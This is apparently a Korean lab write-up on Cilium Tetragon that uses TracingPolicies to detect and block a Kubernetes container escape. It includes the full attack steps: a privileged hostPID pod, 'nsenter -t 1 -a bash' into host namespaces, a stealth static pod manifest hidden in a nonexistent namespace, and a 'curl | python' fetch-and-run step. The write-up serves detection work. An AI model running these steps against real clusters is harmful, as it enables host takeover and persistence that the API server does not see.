

**Table of Contents**
---
- [**Table of Contents**](#table-of-contents)
- [cilium security base](#cilium-security-base)
  - [Security Observability](#security-observability)
  - [Tetragon](#tetragon)
    - [Tetragon install](#tetragon-install)
    - [컨테이너 탈출 감지](#컨테이너-탈출-감지)
  - [Static Pod의 메모리에서 악성 스크립트 실행](#static-pod의-메모리에서-악성-스크립트-실행)
  - [이벤트 발생과 동시에 차단](#이벤트-발생과-동시에-차단)

## cilium security base

- Identity-Based(Layer3), Port Level(Layer4), Application protocol Level(Layer7) 보안 정책 제공
- host level policy를 통해서 노드에 방화벽 정책을 cilium으로 걸 수도 있다.

### Security Observability

- 인시던트(incident)와 관련된 이벤트에 대한 많은 맥락(context)을 제공하는 것
- Linux 커널 기술인 eBPF를 활용하여 보안 관측 가능성(Security Observability)을 실현, 이를 통해 프로덕션 환경의 보안을 강화

### Tetragon



- Tetragon은 Cilium 개발사에서 만든 오픈 소스 보안 관찰 및 런타임 시행 도구
- 사용자가 제공한 구성을 통해 다양한 프로세스 및 네트워크 이벤트 유형을 캡처하여 커널의 임의의 후크 포인트에 대한 보안 관찰을 활성화한 다음, 이러한 이벤트를 보안 팀을 위한 실행 가능한 신호로 변환
- Tetragon은 Cilium 프로젝트의 일부이지만, 실행하는 데 Cilium이나 Hubble이 필요하지 않고 독립적으로 진행되는 프로젝트다.
- ["Security Observability with eBPF"](https://isovalent.com/blog/post/2022-04-oreilly-security) - Book
- Cilium Tetragon은 보안 관찰 이벤트 추출, 이벤트 필터링, 집계 및 외부 이벤트 수집기로의 내보내기를 위한 eBPF 로직을 구현하는 데몬셋으로 실행


#### Tetragon install

- tetragon install yaml 

```yaml
tetragon:
  btf: /sys/kernel/btf/vmlinux
  enableCiliumAPI: false
  exportAllowList: ""
  exportDenyList: ""
  exportFilename: "tetragon.log"
  enableProcessCred: true
  enableProcessNs: true
tetragonOperator:
  enabled: true
```

```bash
helm repo add cilium https://helm.cilium.io
helm repo update
helm install tetragon cilium/tetragon \
  -n kube-system -f tetragon.yaml --version 1.1.0
```

```bash
kubectl rollout status -n kube-system ds/tetragon -w
```

- `TracingPolicy` : 커널에서 임의의 이벤트를 추적하고 일치하는 경우 수행할 작업을 정의
- 아래의 정책은 네트워킹 이벤트를 모니터링하고 네트워크 연결을 추적하는 데 사용

```yaml
apiVersion: cilium.io/v1alpha1
kind: TracingPolicy
metadata:
  name: "networking"
spec:
  kprobes:
  - call: "tcp_connect"
    syscall: false
    args:
     - index: 0
       type: "sock"
  - call: "tcp_close"
    syscall: false
    args:
     - index: 0
       type: "sock"
```

```bash
kubectl apply -f networking.yaml
```

- tetragon 실행

```bash
kubectl exec -n kube-system -ti daemonset/tetragon -c tetragon -- tetra getevents -o compact
🔌 connect kind-control-plane /usr/lib/systemd/systemd tcp 127.0.0.1:33048 -> 127.0.0.1:2381 🛑 CAP_SYS_ADMIN
🧹 close   kind-control-plane /usr/lib/systemd/systemd tcp 127.0.0.1:2381 -> 127.0.0.1:33048 🛑 CAP_SYS_ADMIN
🧹 close   kind-control-plane /usr/lib/systemd/systemd tcp 127.0.0.1:33048 -> 127.0.0.1:2381 🛑 CAP_SYS_ADMIN
🔌 connect kind-control-plane /usr/lib/systemd/systemd tcp 127.0.0.1:34708 -> 127.0.0.1:8080 🛑 CAP_SYS_ADMIN
🧹 close   kind-control-plane /usr/lib/systemd/systemd tcp 127.0.0.1:34708 -> 127.0.0.1:8080 🛑 CAP_SYS_ADMIN
...
```

- `TracingPolicy`에 정의된 tcp_connect, tcp_close syscall 이벤트를 감지하고, 화면에 출력해준다.

#### 컨테이너 탈출 감지

- 컨테이너 이스케이프를 단계별로 감지하는 방법 확인
- 지나치게 권한이 부여된 Pod를 활용하여 호스트의 모든 네임스페이스에 접근
- 그 다음 `/etc/kubernetes/manifests` 디렉터리에 파드 매니페스트를 작성해서 `kubelet`으로 Static POd를 배포 시킨다. 
  - 여기서 쿠버네티스 버그를 이용해서 쿠버네티스 API 서버가 파드를 감지하지 못하는 네임스페이스에 스텔스 파드를 설치한다.
  - kubelet이 static pod를 생성하는 경로는 다음 명령어로 확인할 수 있다.
    ```bash
    root@control:~# grep -i staticPodPath /var/lib/kubelet/config.yaml
    staticPodPath: /etc/kubernetes/manifests
    ```
  - 해당 위치에 yaml 파일이 배치되면 kubelet이 static pod 생성을 시작하는데, kubectl 명령으로 생성하는 과정과 동작 방식이 다르다.
  - kubectl 로 리소스를 생성할 경우 kubectl > api server > etcd 프로세스를 거쳐 namespace 유무를 확인 후 존재하는 네임스페이스에만 파드를 배포한다.
    ```bash
    root@server:~# k apply -f stealth-static-pod.yaml 
    Error from server (NotFound): error when creating "stealth-static-pod.yaml": namespaces "nonexistent-namespace-12345" not found
    root@server:~# cat stealth-static-pod.yaml 
    apiVersion: v1
    kind: Pod
    metadata:
      name: stealth-pod
      namespace: nonexistent-namespace-12345  # 존재하지 않는 네임스페이스!
    spec:
      containers:
      - name: nginx
        image: nginx
    ```
  - kubelet은 해당 경로에 yaml 파일을 읽어 바로 cri를 통해 파드부터 생성한 다음 api server에서 mirror pod 정보를 입력하는데, 이 때 존재하지 않는 네임스페이스 로 생성 요청이 들어오면 실패로 처리된다.
- 그리고 악성 스크립트를 메모리에 다운로드하고 실행하면, 디스크에 영향을 미치지 않고 기존의 User space 탐지 도구로는 확인이 거의 불가능한 공격이 된다.
- privileged 플래그는 컨테이너에 모든 Linux 기능과 호스트 네임스페이스에 대한 접근 권한을 부여한다.
- `privileged` 플래그가 지정된 파드에서 컨테이너 이스케이프가 가능해진다.
- 쿠버네티스에서는 `privileged` 플래그를 기본적으로 허용한다.
- hostPID및 hostNetwork플래그는 컨테이너를 각각 호스트 PID와 네트워킹 네임스페이스에서 실행하여 노드의 모든 프로세스 및 네트워크 리소스와 직접 상호 작용할 수 있게 한다.

- 다음 명령어를 이용해서 `sith-infiltrator` 파드와 관련된 이벤트 추적을 실행 시키고 다음 작업을 이어서 한다.

```bash
kubectl exec -n kube-system -ti daemonset/tetragon -c tetragon -- tetra getevents -o compact --pods sith-infiltrator
```

- hostPID및 hostNetwork플래그가 포함된 파드를 배포한다.

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: sith-infiltrator
  labels:
    org: empire
spec:
  hostPID: true         # 호스트의 PID 네임스페이스 공유
  hostNetwork: true     # 호스트의 네트워크 네임스페이스 공유
  containers:
  - name: sith-infiltrator
    image: nginx:latest
    ports:
    - containerPort: 80
    securityContext:
      privileged: true  # 모든 권한 부여
```

```bash
kubectl apply -f sith-infiltrator.yaml
```

- `sith-infiltrator` 파드에서 `/docker-entrypoint.sh` 스크립트가 실행되며 프로세스가 시작 됨
```bash
🚀 process default/sith-infiltrator /docker-entrypoint.sh /docker-entrypoint.sh nginx -g "daemon off;" 🛑 CAP_SYS_ADMIN
```

- 해당 스크립트가 정상 종료 됨

```bash
💥 exit default/sith-infiltrator /docker-entrypoint.d/20-envsubst-on-templates.sh [...] 0 🛑 CAP_SYS_ADMIN
```

- setns 시스템 호출 이벤트를 추적하여 nsenter 명령으로 권한 상승이 일어나는 것을 감지한다.

```bash
root@server:~# kubectl apply -f sys-setns.yaml
tracingpolicy.cilium.io/sys-setns created
root@server:~# cat sys-setns.yaml 
apiVersion: cilium.io/v1alpha1
kind: TracingPolicy
metadata:
  name: "sys-setns"
spec:
  kprobes:
  - call: "sys_setns"
    syscall: true
    args:
    - index: 0
      type: "int"
    - index: 1
      type: "int"
```

- sith-infiltrator 파드에 접속 후 이벤트를 확인하면 /bin/bash로 접속한 이벤트를 볼 수 있다.

```bash
kubectl exec -it sith-infiltrator -- /bin/bash
```

```bash
🚀 process default/sith-infiltrator /bin/bash              🛑 CAP_SYS_ADMIN
```

- 그 다음 호스트의 PID 1 프로세스(루트)의 `-a` 모든 네임스페이스(PID, Mount, Network, UTS, IPC, User)로 진입해서 bash shell로 접속하는 nsenter 명령을 실행한다.

```bash
nsenter -t 1 -a bash
```

- setns 이벤트를 확인한다.
- 호스트의 네임스페이스 cgroup, ipc, uts, net, pid, mnt, time으로 접속된 것을 확인할 수 있다.

```bash
🚀 process default/sith-infiltrator /usr/bin/nsenter -t 1 -a bash 🛑 CAP_SYS_ADMIN
🔧 setns   default/sith-infiltrator /usr/bin/nsenter cgroup         🛑 CAP_SYS_ADMIN
🔧 setns   default/sith-infiltrator /usr/bin/nsenter ipc            🛑 CAP_SYS_ADMIN
🔧 setns   default/sith-infiltrator /usr/bin/nsenter uts            🛑 CAP_SYS_ADMIN
🔧 setns   default/sith-infiltrator /usr/bin/nsenter net            🛑 CAP_SYS_ADMIN
🔧 setns   default/sith-infiltrator /usr/bin/nsenter pid            🛑 CAP_SYS_ADMIN
🔧 setns   default/sith-infiltrator /usr/bin/nsenter mnt            🛑 CAP_SYS_ADMIN
🔧 setns   default/sith-infiltrator /usr/bin/nsenter time           🛑 CAP_SYS_ADMIN
```

- `/etc/kubernetes/manifests` 폴더에 있는 파일에 변경이 발생하면 이벤트를 남기도록 설정하는 `TracingPolicy`를 설정한다.
- 리눅스는 security_file_permission 함수를 이용해서 자신이 파일에 접근할 때 권한이 있는지를 확인하게 된다.
- 그래서 파드에서 security_file_permission 함수를 사용하면 이벤트를 추적하게 되고 그 때 해당 파일의 첫 번재, 두 번재 Parameter 값을 기반으로 이벤트를 생성한다.
- 이 때, 첫 번째 Parameter의 값이 `/etc/kubernetes/manifests` 폴더일 때 만 이벤트를 남긴다.

```bash
root@server:~# kubectl apply -f sys-write-etc-kubernetes-manifests.yaml
tracingpolicy.cilium.io/file-write-etc-kubernetes-manifests created
root@server:~# cat sys-write-etc-kubernetes-manifests.yaml 
apiVersion: cilium.io/v1alpha1
kind: TracingPolicy
metadata:
  name: "file-write-etc-kubernetes-manifests"
spec:
  podSelector:
    matchLabels:
     org: empire    # 특정 파드 선택
  options:
  - name: "disable-kprobe-multi"
    value: "1"
  kprobes:
  - call: "security_file_permission"    # security_file_permission 함수는 파일 접근 권한을 확인하는 역할
    syscall: false
    args:
    - index: 0
      type: "file"                      # 첫 번째 인자에서 파일 경로 정보
    - index: 1
      type: "int"                       # 두 번째 인자에서 파일 접근 권한(읽기/쓰기 등) 정보
    selectors:
    - matchArgs:      
      - index: 0
        operator: "Prefix"
        values:
        - "/etc/kubernetes/manifests"
```
- 정책을 생성했으면 모니터링을 시작한다.

```bash
root@server:~# kubectl exec -n kube-system -ti daemonset/tetragon -c tetragon -- \
  tetra getevents -o compact --pods sith-infiltrator
```

- 파드로 들어가서 `/etc/kubernetes/manifests/` 폴더로 이동한다.

```bash
root@server:~# kubectl exec -it sith-infiltrator -- /bin/bash
root@kind-control-plane:/# nsenter -t 1 -a bash
root@kind-control-plane:/# cd /etc/kubernetes/manifests/
root@kind-control-plane:/# ls -la
total 28
drwxr-xr-x 1 root root 4096 Sep  4 13:30 .
drwxr-xr-x 1 root root 4096 Sep  4 13:30 ..
-rw------- 1 root root 2547 Sep  4 13:30 etcd.yaml
-rw------- 1 root root 3896 Sep  4 13:30 kube-apiserver.yaml
-rw------- 1 root root 3428 Sep  4 13:30 kube-controller-manager.yaml
-rw------- 1 root root 1463 Sep  4 13:30 kube-scheduler.yaml
root@kind-control-plane:/etc/kubernetes/manifests# 
```

- 이제 static pod를 생성하도록 폴더에 yaml 파일을 하나 생성한다.

```bash
cat << EOF > hack-latest.yaml
apiVersion: v1
kind: Pod
metadata:
  name: hack-latest
  hostNetwork: true
  # define in namespace that doesn't exist so
  # workload is invisible to the API server
  namespace: doesnt-exist
spec:
  containers:
  - name: hack-latest
    image: sublimino/hack:latest
    command: ["/bin/sh"]
    args: ["-c", "while true; do sleep 10;done"]
    securityContext:
      privileged: true
EOF
```

- 그 다음 `hack-latest` 파드가 생성되었는지 확인한다.

```bash
root@kind-control-plane:/etc/kubernetes/manifests# crictl ps
CONTAINER           IMAGE               CREATED             STATE               NAME                      ATTEMPT             POD ID              POD
5ef337db7fc04       e7ba4f2341d9d       16 seconds ago      Running             hack-latest               0                   10fde2a49fca3       hack-latest-kind-control-plane
465996a095a6f       ad5708199ec7d       49 minutes ago      Running             sith-infiltrator          0                   e1ae94aa78f60       sith-infiltrator
ca8047395676c       f872779e5c74a       About an hour ago   Running             tetragon                  0                   6a2a402b8b272       tetragon-dnsdj
c3d9e4a238265       06608740b0dac       About an hour ago   Running             tetragon-operator         0                   de79232bc8d4f       tetragon-operator-58967cbfd6-j5wnt
aeb1fe0a7a750       acc4836f7b346       About an hour ago   Running             export-stdout             0                   6a2a402b8b272       tetragon-dnsdj
fec941b87b11b       27444efca312d       About an hour ago   Running             local-path-provisioner    0                   5324f737273b2       local-path-provisioner-ccc7bf7fc-h6tgt
19d3ba7b18fa5       cbb01a7bd410d       About an hour ago   Running             coredns                   0                   47aab16f879a0       coredns-6f6b679f8f-thkm7
7d5b6b7529ee3       cbb01a7bd410d       About an hour ago   Running             coredns                   0                   d4d22eab0f326       coredns-6f6b679f8f-b44ht
...
```

- 하지만 kubectl 명령을 통해서 조회하면 파드에 보이지 않는다.

```bash
root@server:~# kubectl get pods --all-namespaces | grep -E 'hack-latest|sith-infiltrator'
default              sith-infiltrator                             1/1     Running   0          51m
```

- 여기서 보안 모니터링으로 찍힌 이벤트들을 확인하면 이슈를 추적할 수 있다.

```bash
🚀 process default/sith-infiltrator /usr/bin/cat           🛑 CAP_SYS_ADMIN
📝 write   default/sith-infiltrator /usr/bin/cat /etc/kubernetes/manifests/hack-latest.yaml 🛑 CAP_SYS_ADMIN
📝 write   default/sith-infiltrator /usr/bin/cat /etc/kubernetes/manifests/hack-latest.yaml 🛑 CAP_SYS_ADMIN
💥 exit    default/sith-infiltrator /usr/bin/cat  0 🛑 CAP_SYS_ADMIN
```

### Static Pod의 메모리에서 악성 스크립트 실행

- 기존 User Space에서 제공하는 도구로는 감지가 거의 불가능한 멀웨어 스크립트를 실행한다.

- 보안 모니터링을 실행한다.

```bash
root@server:~# kubectl exec -n kube-system -ti daemonset/tetragon -c tetragon -- \
  tetra getevents -o compact --pods sith-infiltrator
```

- 파드에 접속 후 다시 호스트 노드의 루트 권한으로 탈출한다. 그리고, Static Pod의 컨테이너 ID를 확인한다.

```bash
root@server:~# kubectl exec -it sith-infiltrator -- /bin/bash
root@kind-control-plane:/# nsenter -t 1 -a bash
root@kind-control-plane:/# CONT_ID=$(crictl ps --name hack-latest --output json | jq -r '.containers[0].id')
root@kind-control-plane:/# echo $CONT_ID
5ef337db7fc04ad358b458b52c476604e39fe64a3e9339943d02d3a61431b868
```

- 그리고 Static Pod로 접속한다.

```bash
root@kind-control-plane:/# crictl exec -it $CONT_ID /bin/bash
PRETTY_NAME="Alpine Linux v3.12"
root@hack-latest-kind-control-plane:~ [0]# 
```

- 이벤트 로그를 확인한다.

```bash
🚀 process default/sith-infiltrator /usr/local/bin/crictl exec -it 5ef337db7fc04ad358b458b52c476604e39fe64a3e9339943d02d3a61431b868 /bin/bash 🛑 CAP_SYS_ADMIN
🔌 connect default/sith-infiltrator /usr/local/bin/crictl tcp 127.0.0.1:55674 -> 127.0.0.1:34639 🛑 CAP_SYS_ADMIN
```

- 이제 악성 프로그램을 설치하기 전에 특정 프로세스(curl, python)과 관련된 이벤트를 추적하기 위해서 다음 명령으로 모니터링을 설정한다.

```bash
root@server:~# kubectl exec -n kube-system -ti daemonset/tetragon -c tetragon -- \
  tetra getevents -o compact --processes curl,python
```

- 악성 스크립트를 다운로드 받는다.

```bash
root@hack-latest-kind-control-plane:~ [0]# curl https://raw.githubusercontent.com/realpython/python-scripts/master/scripts/18_zipper.py | python
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   488  100   488    0     0   2741      0 --:--:-- --:--:-- --:--:--  2741
root@hack-latest-kind-control-plane:~ [0]# 
```

- 이벤트 결과를 확인하면 pyton이 실행되면서 `185.199.110.133:443` IP와 Port로 소켓 연결이 시도된 것을 확인할 수 있다.

```bash
🚀 process kind-control-plane /usr/bin/python              🛑 CAP_SYS_ADMIN
🚀 process kind-control-plane /usr/bin/curl https://raw.githubusercontent.com/realpython/python-scripts/master/scripts/18_zipper.py 🛑 CAP_SYS_ADMIN
🔌 connect kind-control-plane /usr/bin/curl tcp 10.244.0.6:47690 -> 185.199.110.133:443 🛑 CAP_SYS_ADMIN
🧹 close   kind-control-plane /usr/bin/curl tcp 10.244.0.6:47690 -> 185.199.110.133:443 🛑 CAP_SYS_ADMIN
💥 exit    kind-control-plane /usr/bin/curl https://raw.githubusercontent.com/realpython/python-scripts/master/scripts/18_zipper.py 0 🛑 CAP_SYS_ADMIN
💥 exit    kind-control-plane /usr/bin/python  0  🛑 CAP_SYS_ADMIN
```

### 이벤트 발생과 동시에 차단

- `TracingPolicy`에 `matchActions` 필드를 추가한다.
- `matchActions`에는 다양한 동작을 정의할 수 있다.
  - `Sigkill` 프로세스를 즉시 종료
  - `Override` 함수 반환 인수를 재정의
  - `Signal` 프로세스에 신호 전달
  - `GetUrl` 알려진 URL로 GET 요청

```bash
root@server:~# cat sys-write-etc-kubernetes-manifests.yaml 
apiVersion: cilium.io/v1alpha1
kind: TracingPolicy
metadata:
  name: "file-write-etc-kubernetes-manifests"
spec:
  podSelector:
    matchLabels:
     org: empire
  options:
  - name: "disable-kprobe-multi"
    value: "1"
  kprobes:
  - call: "security_file_permission"
    syscall: false
    args:
    - index: 0
      type: "file" # (struct file *) used for getting the path
    - index: 1
      type: "int" # 0x04 is MAY_READ, 0x02 is MAY_WRITE
    selectors:
    - matchArgs:
      - index: 0
        operator: "Prefix"
        values:
        - "/etc/kubernetes/manifests"
      matchActions:
      - action: Override
        argError: -1
```

- 모니터링 시작

```bash
root@server:~# kubectl exec -n kube-system -ti daemonset/tetragon -c tetragon -- \
  tetra getevents -o compact --pods sith-infiltrator
```

- 다시 파드에 들어가서 호스트의 루트 권한으로 상승 시킨 후 `/etc/kubernetes/manifests` 폴더에 접근하면 정책을 통해 차단되는 것을 볼 수 있다.

```bash
root@server:~# kubectl exec -it sith-infiltrator -- /bin/bash
root@kind-control-plane:/# nsenter -t 1 -a bash
root@kind-control-plane:/# cd /etc/kubernetes/manifests/
root@kind-control-plane:/etc/kubernetes/manifests# ls -la
ls: reading directory '.': Operation not permitted
total 0
```

- 다시 이벤트 로그 결과를 보면 ls 명령의 실행 결과 status 값이 2 라는 것을 볼수 있다.
- 주로 status 값이 2인 경우는 파일, 디렉터리를 못찾앗거나 접근 권한이 없을 때 발생한다.

```bash
🚀 process default/sith-infiltrator /usr/bin/bash          🛑 CAP_SYS_ADMIN
🚀 process default/sith-infiltrator /usr/bin/ls -la        🛑 CAP_SYS_ADMIN
📚 read    default/sith-infiltrator /usr/bin/ls /etc/kubernetes/manifests 🛑 CAP_SYS_ADMIN
💥 exit    default/sith-infiltrator /usr/bin/ls -la 2 🛑 CAP_SYS_ADMIN
🚀 process default/sith-infiltrator /bin/bash              🛑 CAP_SYS_ADMIN
```